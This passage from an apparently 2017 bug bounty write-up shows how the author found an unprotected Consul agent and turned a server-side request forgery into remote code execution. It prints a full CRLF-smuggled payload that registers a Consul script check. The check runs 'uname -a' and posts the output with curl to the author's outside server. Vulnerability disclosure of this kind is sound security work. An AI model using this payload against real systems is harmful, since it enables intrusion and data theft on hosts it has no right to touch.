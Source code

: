 ![Lookin good!](/assets/article_images/2017/consul-http-get-sanitized.png){: .center-image }

A few anxious moments later, I saw a successful HTTP GET against my testing server with a User-Agent of `Consul Health Check`, confirming that this was both a Consul agent and that ACLs weren't applied to the `check` endpoint!

In order to confirm whether I **could** use this to pop a shell on the remote system (without actually popping a shell, given that this was a bounty program not a red team exercise), I modified the request slightly; replacing the `http` check with a `script` check configured it to pipe the result of `uname -a` into an HTTP POST request using CURL. The final payload looked something like the following:

```
http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 195\r\n\r\n\u007B\u0022id\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022name\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022script\u0022: \u0022/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server/writer/writer.php?f=uname\u0022,\u0022interval\u0022: \u002260s\u0022,\u0022timeout\u0022: \u00225s\u0022\u007D
```

Once again, I dropped this new payload into the "URL" field and submitted the payload, waiting anxiouslyt to see whether it'd execute the command and send the output back over HTTPS...

A few moments later, I heard a ping from my Nginx logs which confirmed that I had an RCE!
